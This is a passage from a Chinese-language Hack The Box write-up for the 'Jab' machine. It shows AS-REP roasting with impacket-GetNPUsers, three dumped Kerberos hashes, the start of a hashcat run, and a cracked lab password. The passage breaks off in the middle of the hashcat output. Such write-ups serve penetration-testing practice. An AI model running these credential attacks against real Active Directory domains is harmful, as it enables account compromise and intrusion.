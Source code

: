 想起来之前收藏的**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**，机会难得，可以试一下是否有效。  
根据这份思维导图，定位到“got username but no password”的位置，大体上有两个思路，一个就是上面提到的密码喷洒，另一个就是ASREPRoast。


## ASREPRoast

直接照做。一套下来，有3个用户可以无预认证获得TGT（hashcat格式），而其中1个用户凭据可以破解：`jmontgomery@jab.htb:Midnight_121`
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-GetNPUsers -outputfile GetNPUsers.hash -format hashcat -usersfile user.txt jab.htb/ -dc-ip 10.10.11.4

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ cat GetNPUsers.hash
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855
$krb5asrep$23$lbradford@jab.htb@JAB.HTB:12ab21d5362ed0607532dd32922102fd$8445081728b932a7aa56594712ca12a44836d26932e0b6a50057ec346b24b7316d405f86a4cffe6ea54b0bf54b33fd6cacd6e13f5a6795024bd95c6653309ffe042ac3a26b86c5e053986ae9be6d9b82b7d9f58c130616d8de1d2625f240ea84d791b2fdca85ecb8a2a3ecb787f4f02fd4d3bc54a3003552ae34caee05b5122690b487b996879769f1aa790b42ce96a1c1fcf8f9deef50abb93822945d5cb9e1f2c357c38a3ffc1100ac2491bde95abc9ede3e56ae97da0541170d186c14dca95e1524c6a7d6714683baec02841379405f1b4c7cf77de168f41d9c3c41cd083af4cb
$krb5asrep$23$mlowe@jab.htb@JAB.HTB:f06a9e452c5fd320526d20b5f3c10651$cb7496554c06c770a201e3b9c700408c4b893a82da439b13b6cc24e0a45a0512c3a4e065df2b97962efdde07f4d4abad2649d3f972277696721bc5730d314c82bdd45673b8bb6a7f32aafe526e641ad53f0de456d01d612a1c35475d491b93460545095b093f9c8045623d43b661a37cf20d07e9f26a2f8dd705570ea9c865897423de702ea713ca042d41e4fd736d438f46af7ca7dec79fc2feedd63fa95d2032b927760aa4c7c4c8166e4d89899746ea36ac197f3af23be8863147db3ca30b81139677c2ec939b4b72471bbd0dcc8d25f5e868c116ac9afaf58d6f6076c598d21e


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ hashcat GetNPUsers.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 3700X 8-Core Processor, 1601/3266 MB (512 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

 (...)

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

```